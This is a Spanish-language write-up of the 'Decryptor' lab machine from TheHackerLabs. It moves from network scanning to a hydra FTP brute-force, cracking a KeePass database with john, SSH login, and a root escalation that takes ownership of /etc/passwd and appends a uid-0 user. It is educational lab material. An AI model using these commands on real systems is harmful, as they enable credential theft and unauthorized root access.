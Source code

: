```yaml
---
layout: post
title: "Decryptor"
date: 2024-06-21 11:15:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Decryptor </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/decryptor/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Decryptor/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Decryptor/arp.png){:.margin}

**2\.** Escaneando servicios y puertos activos en la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/nmap.png){:.margin}

**3\.** Verificando la web que corre apache, en la fuente por debajo encuentro codigo Brainfuck.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/80code.png){:.margin}

**4\.** Decodeando en [dcodefr](https://www.dcode.fr/brainfuck-language), este puede ser una posible contraseña.

![img](/notas/public/img/thehackerlabs/Decryptor/dcodefr.png){:.margin}

**5\.** Probe fuerza bruta al ssh sin exito, pero al ftp si se pudo.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p marioeatslettuce ftp://192.168.1.8:2121`

![img](/notas/public/img/thehackerlabs/Decryptor/hydra.png){:.margin}

**6\.** Me conecto por ftp, encuentro una base de datos de [Keepass](https://keepassxc.org/download/#linux), me lo descargo.

`ftp 192.168.1.8 -p 2121`

`dir`

`get user.kdbx`

![img](/notas/public/img/thehackerlabs/Decryptor/ftp.png){:.margin}

**7\.** Crackeando la contraseña de la base de datos.

`kepass2john user.kdbx > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Decryptor/john.png){:.margin}

**8\.** Lo abrimos con keepass, y encuentro unas credenciales.

![img](/notas/public/img/thehackerlabs/Decryptor/keepass.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/keepassok.png){:.margin}

**9\.** Me conecto por ssh como chiquero.

`ssh chiquero@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/sshchiquero.png){:.margin}

**10\.** Encuentro un binario que puedo ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Decryptor/sudol.png){:.margin}

**11\.** Escalando privilegios, [gtfobins](https://gtfobins.github.io/gtfobins/chown/#sudo).

_11.1- Cambio propietario al etc/passwd_

`sudo /usr/bin/chown chiquero:chiquero /etc/passwd`

`ls -l /etc/passwd`

![img](/notas/public/img/thehackerlabs/Decryptor/chown.png){:.margin}

_11.2- Genero una contraseña y agrego un usuario con permisos root, migro a este y ya somos root_

`openssl passwd micontra`

`echo 'super:$1$AFnwwj9w$4m5nsE/FkLlU.gvCtTntR1:0:0::/home/super:/bin/bash' >> /etc/passwd`

`su super`

![img](/notas/public/img/thehackerlabs/Decryptor/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>